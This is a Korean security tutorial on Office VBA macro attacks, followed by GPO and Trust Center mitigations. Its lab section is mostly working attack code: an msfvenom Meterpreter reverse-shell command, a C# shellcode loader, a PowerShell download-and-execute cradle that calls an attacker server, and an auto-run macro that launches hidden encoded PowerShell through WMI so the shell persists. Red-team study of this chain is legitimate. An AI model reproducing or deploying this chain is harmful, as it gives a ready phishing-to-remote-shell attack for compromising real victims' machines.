


# 오피스 VBA 매크로

비쥬얼 베이직 어플리케이션 (VBA) 매크로는 마이크로소프트 오피스 제품들의 자동화를 도와주는 비쥬얼 베이직 6.0 기반의 프로그래밍 언어다. 보안적으로는 90년대부터 피싱 공격 첨부파일안의 악성코드를 실행하는데 많이 사용됐다.&#x20;

2022년 기준 오피스 VBA 매크로를 사용한 초기 침투 및 피싱 공격은 성공하기 매우 어려워졌다. 마이크로소프트는 2022년 2월에 모든 오피스 제품들과 오피스365에서[ 기본적으로 매크로를 비활성화 하도록 패치](https://docs.microsoft.com/en-us/deployoffice/security/internet-macros-blocked)했다. - 2022/07/07 업데이트 - 라고 생각했는데 7월 7일 이 패치를 롤백했다 ([https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/](https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/)). 따라서 VBA 매크로는 여전히 기본적으로 활성화 되어 있는 상태다. 레드팀들이나 공격자들이 매우 환영할만한 롤백이다(...).&#x20;

이제는 잘 쓰이지 않게 된 TTP지만 거의 30년 동안 공격자들이 사용했던 역사적인 가치가 있는 공격 기법이기 때문에 기초를 닦는다는 마음가짐으로 이 페이지에서 정리한다.&#x20;

### AutoOpen, Document\_Open&#x20;

오피스 제품들에서 실행되는 VBA 매크로 중 AutoOpen() 과 Document\_Open() 함수는 파일을 열자마자 자동적으로 실행되는 함수다. 이를 막는 MotW (Mark of the Web), Protected Views, 그리고 Enable Content 등의 방어 기법들이 있어 요새는 문서를 연다고 해서 VBA 매크로가 자동적으로 실행되지는 않는다. 그러나 피해자 유저가 방어 기법들을 모두 비활성화 하거나 허용할 시 위에서 언급된 함수들이 실행된다.&#x20;

### 실습&#x20;

이번 실습에서는 다음과 같은 공격 체인을 만들어본다:&#x20;

* 워드 프로세스 -> VBA 매크로 -> WMI -> 파워쉘 -> C# .NET 로더 -> Meterpreter&#x20;

중간에 VBA 매크로에서 WMI를 사용하는 것은 쉘이 워드 프로세스 파일이 아닌 `WmiPrvSE.exe` 파일의 자식 프로세스로 생성되기 때문이다. 이 경우 피해자 유저가 워드 문서 파일을 닫아도 쉘은 살아있게 된다.&#x20;

1. 먼저 Meterpreter 쉘코드를 `msfvenom` 을 이용해 만든다.&#x20;

```
msfvenom -p windows/x64/meterpreter/reverse_http lhost=192.168.40.182 lport=443 --encrypt aes256 --encrypt-key 'qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT' --encrypt-iv '?aEe(fG+KbPe23fz' -f csharp
```

2\. 이 Meterpreter 쉘을 로드해 실행할 C# .NET 로더를 만든다. 슬리버 C2의 스테이저 코드를 수정한 뒤 사용했다.&#x20;

<details>

<summary>MeterStager.cs</summary>

```csharp
using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace MeterStager
{
    public class Stager
    {
        private static string aesKey = "qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT";
        private static string aesIV = "?aEe(fG+KbPe23fz";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            byte[] shellcode = new byte[720] {
            	
            < ... Meterpreter 쉘코드 ... >  

            };


            shellcode = Decrypt(shellcode, aesKey, aesIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)0xfff0000, 0x3000, 0x40);
            //Console.WriteLine("[+] addr: {0}", addr.ToInt64().ToString("x2"));
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            //Console.WriteLine("[+] shellcode length: {0}", shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```

</details>

3\. 이후 이 MeterStager.cs C# .NET 로더는 파워쉘에 로드되어 실행된다. 공격자의 다른 서버 `192.168.40.179` 의 포트 9999에서 파일을 받아온 뒤, Reflection을 이용해 로드한 뒤, 메인 EntryPoint를 실행하도록 파워쉘 페이로드를 준비한다. &#x20;

```
iex([System.Reflection.Assembly]::Load((New-Object net.webclient).DownloadData('http://192.168.40.179:9999/MeterStager.exe'))).EntryPoint.Invoke($null, [Object[]]@(@(,([String[]]@()))))
```

위 파워쉘 페이로드를 VBA 매크로에 들어가도록 유틸 스크립트를 이용해 base64 인코딩 한다.&#x20;

<details>

<summary>Invoke-VBAps.ps1</summary>

```powershell
$s = @'
 < your powershell payload here > 
'@
 
<# Just copy/paste everything below! #>
$EncodedText =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($s))  

$array = @()
[System.Collections.ArrayList]$ArrayList = $array
$EncodedText -split '(.{300})' | Where-Object {
    $ArrayList.Add($_) | out-null
}

foreach ($item in $ArrayList){
    if([string]::IsNullOrEmpty($item)){
        continue
    }
    else{
        if($item -eq $ArrayList[-1]){
            '"' + $item +'"' 
            break 
        }
        '"' + $item + '" & _'
    }
}
```


</details>

4\. 이제 완성된 파워쉘 페이로드를 VBA 매크로에다가 집어넣은 뒤, 문서를 생성하면 된다.&#x20;

<details>

<summary>go.vba</summary>

```vba
Sub Document_Open()
    test
End Sub

Sub AutoOpen()
    test
End Sub

Function test()
    Const HIDDEN_WINDOW = 12

    strComputer = "."
    Set objWMIService = GetObject("winmgmts:" _
        & "{impersonationLevel=impersonate}!\\" & strComputer & "\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")

    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    
    Dim proc As Object
    Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    Dim str As String
    
    str = "powershell -exec bypass -nologo -nop -w hidden -enc " & _
    "aQBlAHgAKABbAFMAeQBzAHQAZQBtAC4AUgBlAGYAbABlAGMAdABpAG8AbgAuAEEAcwBzAGUAbQBiAGwAeQBdADoAOgBMAG8AYQBkACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAMAAuADEANwA5ADoAOQA5ADkAOQAvAFMAbABpAHYAZQBy" & _
    "AFMAdABhAGcAZQByAC4AZQB4AGUAJwApACkAKQAuAEUAbgB0AHIAeQBQAG8AaQBuAHQALgBJAG4AdgBvAGsAZQAoACQAbgB1AGwAbAAsACAAWwBPAGIAagBlAGMAdABbAF0AXQBAACgAQAAoACwAKABbAFMAdAByAGkAbgBnAFsAXQBdAEAAKAApACkAKQApACkA"
    
    errReturn = proc.Create(str, Null, objConfig, intProcessID)
End Function
```

</details>

Chameleon과 VBA script 난독화를 진행할 경우 디펜더 우회는 가능하지만, 모든 공격 PoC가 그렇듯 무기화는 진행하지 않는다.&#x20;

실행하면 다음과 같은 결과가 나온다.&#x20;



### 대응 방안&#x20;

* 업데이트된 오피스 제품들이나 오피스365를 사용한다면 기본적으로 악성 VBA 매크로가 비활성화 되어 있다. - 라고 생각했지만 07/07일 마이크로소프트 사가 이를 [롤백](https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/)했다.&#x20;
* 마이크로 오피스 전용 그룹 정책 Administrative Template File 을 다운 받은 뒤, 그룹 정책을 설정한다. 그룹 정책을 설정할 때에는 유저 그룹마다, 호스트 그룹마다 따로 GPO를 설정하는 것이 권장된다.&#x20;
* 예를 들어, VBA 매크로 자체를 비활성화 해버리는 GPO의 경우 회계부서 OU 보다는 IT나 세일즈 유저들이 있는 OU에 링크 하는 것이 바람직할 것이다.&#x20;
* VBA 비활성화 혹은 디지털 서명된 VBA만 사용 - `Computer/User Configuration\Policies\Administrative Templates\Microsoft Office XXXX\Security Settings\Disable VBA Office applications`
* 개인이나 GPO가 필요없는 소규모 네트워크의 경우 엔드 유저가 직접 비활성화 시킬수도 있다.
  * 워드 -> Options -> Trust Center -> Trust Center Settings -> Macro Settings -> VBA 완전 비활성화 혹은 디지털 서명된 VBA 만 허용&#x20;



* 현 조직에서 매크로를 많이 사용한다면 인터넷에서 받은 문서+매크로 파일들만 비활성화 하는 GPO를 사용한다.&#x20;
  * .png>)
  * `User Configuration\Policies\Administrative Templates\Block macros from running in Office files from the Internet - Protected`
* 더 자세한 대응 방안은 레퍼런스를 참고한다.&#x20;

### 레퍼런스&#x20;






